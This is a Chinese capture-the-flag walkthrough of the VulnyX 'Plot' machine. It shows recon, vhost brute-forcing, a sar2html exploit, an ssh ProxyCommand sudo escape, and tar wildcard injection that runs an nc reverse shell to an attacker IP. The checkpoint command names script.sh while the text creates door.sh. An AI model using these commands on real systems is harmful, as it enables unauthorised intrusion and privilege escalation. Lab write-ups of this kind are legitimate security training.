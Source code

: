 # 环境

来自[vulnyx_Plot](https://vulnyx.com/#Plot)，爆破网站子域名，利用已知sar2html漏洞拿shell

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.88.41
```

![image-20240816003844076](image/image-20240816003844076.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.41
```

![image-20240816003913134](image/image-20240816003913134.png)

## 详细信息

```bash
sudo nmap -sV -sC -O -p22,80 192.168.88.41
```

![image-20240816004005030](image/image-20240816004005030.png)

## 目录扫描

```bash
dirb http://192.168.88.41
```

结果没有什么东西

# web渗透

## 发现域名

```bash
curl -I http://192.168.88.41
发现X-Custom-Hander值是一个域名，修改/etc/hosts
```

![image-20240816004203457](image/image-20240816004203457.png)

## 爆破子域名

得到一个域名，访问还是测试页面，考虑是否存在子域名访问

```bash
ffuf -u http://pl0t.nyx -H host:FUZZ.pl0t.nyx -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 10701
```

![image-20240816005128371](image/image-20240816005128371.png)

```bash
gobuster vhost -u pl0t.nyx -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain 
```

![image-20240816005248990](image/image-20240816005248990.png)

修改hosts访问`http://sar.pl0t.nyx`，发现是`sar2html 3.2.1`

## 已知漏洞

```bash
searchsploit sar2html
searchsploit -m 49344
```

![image-20240816005649486](image/image-20240816005649486.png)

反弹shell

![image-20240816010521868](image/image-20240816010521868.png)

![image-20240816010541244](image/image-20240816010541244.png)

## 提权

[ssh提权](https://gtfobins.github.io/gtfobins/ssh/#sudo)

```bash
sudo -l
sudo -u tony ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![image-20240816011141390](image/image-20240816011141390.png)

tony提权无果，运行进程监控程序[pspy](https://github.com/DominicBreuker/pspy)，发现会自动备份网站文件

![image-20240816013345447](image/image-20240816013345447.png)

tar提权

```bash
在/var/www/html下创建，和door.sh
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh script.sh"
创建door.sh反弹shell脚本
nano door.sh
#!/bin/bash
nc -c /bin/bash 192.168.88.10 4444
```

![image-20240816015037104](image/image-20240816015037104.png)
